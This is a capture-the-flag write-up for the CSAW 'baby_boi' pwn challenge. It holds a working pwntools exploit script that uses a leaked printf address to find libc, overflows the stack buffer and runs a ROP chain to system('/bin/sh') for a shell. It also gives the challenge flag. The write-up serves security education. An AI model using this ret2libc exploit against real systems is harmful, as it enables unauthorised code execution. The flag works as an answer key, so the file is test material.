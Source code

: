 # baby_boi

## pwn - Points: 50

> Welcome to pwn.
>
> 
>
> `nc pwn.chal.csaw.io 1005`
>
> [baby_boi](baby_boi)
>
> [libc-2.27.so](libc-2.27.so)
>
> [baby_boi.c](baby_boi.c)
>

The binary already leaks the address of `printf`, so we can easily calculate the `libc` base address. Then we overflow the buffer (no stack canaries enabled) and perform a `ROP` chain to execute the `system` function with the argument `/bin/sh`.

Exploit script:

```python
from pwn import *


libc = ELF('libc-2.27.so')

rop = ROP('baby_boi')
POP_RDI_RET = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

p = process('baby_boi')
# p = remote('pwn.chal.csaw.io', 1005)

data = p.recv()

printf = int(data.splitlines()[1].split(' ')[3],16) - libc.symbols['printf']
log.info('libc base: ' + hex(printf))

system = printf + libc.symbols['system']
log.info('system at: ' + hex(system))

shell = printf + next(libc.search("/bin/sh"))
log.info('/bin/sh at: ' + hex(shell))

p.sendline('A' * 40 + p64(RET) + p64(POP_RDI_RET) + p64(shell) + p64(system))
p.interactive()
```

flag: `flag{baby_boi_dodooo_doo_doo_dooo}`